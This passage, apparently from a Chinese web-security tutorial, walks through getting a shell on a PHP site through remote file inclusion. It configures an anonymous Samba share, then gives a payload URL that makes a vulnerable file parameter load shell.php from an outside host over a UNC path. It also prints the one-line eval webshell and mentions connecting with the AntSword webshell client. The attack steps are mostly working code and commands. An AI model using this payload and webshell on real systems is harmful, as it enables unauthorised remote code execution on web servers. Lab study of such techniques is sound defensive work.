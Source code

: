 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0188f6800e2ebd6b9e.png)

（4）编辑samba配置文件 `/etc/samba/smb.conf`

```
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[Qftm]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

（5）重新启动SAMBA服务器以应用配置文件`/etc/samba/smb.conf`中的新配置

```
service smbd restart
```

成功重新启动SAMBA服务器后，尝试访问SMB共享并确保SAMBA服务器不要求凭据。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_641_/t01cfcf40a80a9c1050.png)

<a class="reference-link" name="Getshell"></a>**Getshell**

在环境都配置完且验证之后，利用`samba`目录`/var/www/html/pub`中共享的WebShell进行GetShell
- `unc-&gt;payload`
```
http://127.0.0.1/FI/index.php?file=\192.33.6.145qftmshell.php
```
- `shell.php`
```
&lt;?php @eval($_POST['admin']);?&gt;
```
- 蚁剑连接
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_691_/t01dcca06a0e5b94f66.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/dm/1024_691_/t01da15747e0897c499.png)
